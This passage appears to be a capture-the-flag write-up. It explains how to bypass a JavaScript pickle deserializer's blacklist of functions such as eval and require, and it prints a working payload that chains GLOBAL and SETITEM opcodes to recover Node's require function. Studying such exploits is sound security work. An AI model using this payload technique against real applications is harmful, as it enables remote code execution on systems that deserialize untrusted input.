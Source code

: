 A blacklist of dangerous functions prevents usage of `eval` or `require`...

`BLACKLIST = ["require", "eval", "setTimeout", "setInterval", "setImmediate"];`

A well known technique used by [metasploit](https://github.com/gojhonny/metasploit-framework/blob/master/lib/msf/core/payload/nodejs.rb#L10) to retrieve the `require` function is to call `this.process.mainModule.constructor._load`.

So, if we use GLOBAL with `'process'` and `'mainModule'` arguments we can stack the `mainModule` object. How could we get access to `constructor` then `_load` as there is no case to pop object and push an arbitrary element of this object?

The way we found is to link the retrieved `mainModule` object into `this` so `this.mainModule` would exist and we could call GLOBAL to retrieve  `constructor` and do it again to retrieve `_load`.

To do that we used SETITEM :

```
case SETITEM:
    var value = stack.pop();
    var key = stack.pop();
    var obj = stack.pop();
    obj[key] = value;
    stack.push(obj);
    break;
```

If we push `this`, then an arbitrary string name (for the key), then the `mainModule` object, SETITEM will add it to this \o/.

How can we get `this` object on the stack ? Call GLOBAL with `'global'` and `'global'` !

Indeed, `global` is a circular reference to itself so `this.global.global === this`.

We have everything we need to retrieve the `require` function!

```
var pickle = ""+
"c"+ // GLOBAL
"global\n"+ //moduleName
"global\n"+ //name
// now `this` is on the stack
"S'a'\n"+ // push arbitrary String 'a' (arbitrary key name)
"c"+ // GLOBAL
"process\n"+ //moduleName
"mainModule\n"+ //name
// now we got [`this`, 'a', `process.mainModule`]
"s"+ // SETITEM
// `this` has a new parameter named 'a' which is the mainModule object !
// we do it again for constructor
"c"+ // GLOBAL
"global\n"+ //moduleName
"global\n"+ //name
"S'b'\n"+ // push arbitrary String 'b'
"c"+ // GLOBAL
"a\n"+ //moduleName
"constructor\n"+ //name
// now we got [`this`, 'b', `process.mainModule.constructor`]
"s"+ // SETITEM
// and again for `_load`
"c"+ // GLOBAL
"global\n"+ //moduleName
"global\n"+ //name
"S'rediuce'\n"+ // push arbitrary String 'rediuce'
"c"+ // GLOBAL
"b\n"+ //moduleName
"_load\n"+ //name
// now we got [`this`, 'rediuce', `process.mainModule.constructor._load`]
"s" // SETITEM
```